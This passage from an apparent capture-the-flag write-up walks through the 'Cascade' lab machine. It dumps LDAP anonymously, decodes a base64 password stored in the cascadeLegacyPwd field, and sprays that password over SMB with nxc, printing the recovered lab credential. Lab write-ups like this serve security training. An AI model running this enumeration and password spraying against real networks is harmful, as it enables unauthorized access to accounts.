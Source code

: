 We already know the `namingcontext` of the domain, so can try dumping all the available information directly. That can be a lot, so let's write the output into a file and search for unique (low-frequency) fields to check if everything interesting stands out (Figure 4).

{% code overflow="wrap" %}
```bash
# dump all ldap info into a file
$ ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldap_info
# search for anomalies
$ cat ldap_info | awk '{print $1}' | sort | uniq -c | sort -n | grep ':'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/casc_ldap_unique.png" alt=""><figcaption><p>Figure 4: Spotting a unique field among the LDAP fields.</p></figcaption></figure>

A field called `cascadeLegacyPwd` sticks out! If we search LDAP's output file to see what this field holds it seems like a [Base64](../../tools/crypto.md#encoding-decoding) encoded value, which we can directly decode (Figure 5).

```bash
# search for the field of interest
cat ldapsearch_output | grep cascadeLegacyPwd
# extract and decode the string
cat ldap_info | grep cascadeLegacyPwd | cut -d' ' -f2 | base64 -d
```

<figure><img src="../../.gitbook/assets/casc_decoding.png" alt=""><figcaption><p>Figure 5: Revealing and decoding the cascadeLegacyPwd field's valuie. </p></figcaption></figure>

We can now try spraying the cleartext password to our username list and see how it goes (Figure 6).

```bash
nxc smb 10.10.10.182 -u users.txt -p rY4n5eva --continue-on-success
```
